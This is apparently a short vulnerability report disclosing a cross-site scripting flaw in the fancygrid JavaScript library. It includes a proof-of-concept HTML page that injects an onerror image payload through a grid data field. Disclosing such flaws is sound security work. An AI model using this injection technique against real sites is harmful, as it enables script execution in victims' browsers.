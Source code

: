# Description

`fancygrid` is vulnerable to `Cross-Site Scripting (XSS)`.

# Proof of Concept
Save and execute the following file in any browser
```
<html lang="en">
<head>
  <title>fancygrid</title>
</head>
<body>
    <div id="grid"></div>
  <link href="https://cdn.fancygrid.com/fancy.min.css" rel="stylesheet">
  <script src="https://cdn.fancygrid.com/fancy.min.js"></script>
  <script>
    document.addEventListener("DOMContentLoaded", function() {
     
    new FancyGrid({
      renderTo: 'grid',
      width: 300,
      height: 200,
      data: [
        {name: 'Nick"><img src=x onerror=alert(1)>', age: 30},
        {name: 'Fred', age: 25},
        {name: 'Mike', age: 35}
      ],  
      columns: [{
        index: 'name',
        title: 'Name',    
        type: 'string'
      },{
        type: 'number',
        index: 'age',
        title: 'Age'
      }]
    });
     
    });
    </script> 
</body>
</html>
```
XSS payload will get executed.
